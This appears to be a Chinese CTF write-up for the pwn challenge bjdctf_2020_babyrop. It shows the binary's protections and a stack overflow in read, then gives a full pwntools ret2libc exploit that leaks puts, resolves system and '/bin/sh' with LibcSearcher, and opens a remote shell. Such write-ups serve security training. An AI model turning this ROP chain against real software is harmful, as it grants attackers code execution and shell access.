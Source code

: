 ```yaml
---
title: bjdctf_2020_babyrop1
date: 2022-07-14 16:02:02
permalink: /pages/534853/
categories:
  - 网络安全
  - pwn
  - ctf赛事题
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# bjdctf_2020_babyrop1

### 文件保护

```
[*] '/home/root/Desktop/pwn/bjdctf_2020_babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### 主函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  vuln();
  return 0;
}
```

* vlun函数

 ```C
ssize_t vuln()
{
 char buf[32]; // [rsp+0h] [rbp-20h] BYREF
  
  puts("Pull up your sword and tell me u story!");
  return read(0, buf, 0x64uLL);
}
 ```

### 思路及分析

> 已知信息

* 无后门程序

* 无保护

* nx开启

* no pie

* 溢出点为read

>  分析

* 标准的ret2libc，先泄露lib及其函数地址后，计算其偏移得出system和binsh的地址，构造payload，得到shell

### payload

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
py=0x20+8
# io=process('./bjdctf_2020_babyrop')
io=remote("node4.buuoj.cn",27686)
elf=ELF('./bjdctf_2020_babyrop')
# gdb.attach(io,'b puts')
pop_rdi=0x0000000000400733
puts_plt_addr=elf.plt['puts']
puts_got_addr=elf.got['puts']
main_addr=elf.symbols['main']
ret=0x00000000004004c9 
io.sendline(flat(['a'*py,pop_rdi,puts_got_addr,puts_plt_addr,main_addr]))
puts_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
# log.success("system_addr:"+hex(puts_addr))
# print(hex(puts_addr))
libc=LibcSearcher('puts',puts_addr)
basepy=puts_addr-libc.dump('puts')
system_addr=basepy+libc.dump('system')
bin_sh_addr=basepy+libc.dump('str_bin_sh')
io.sendline(flat(['a'*py,ret,pop_rdi,bin_sh_addr,system_addr]))
io.interactive()
```

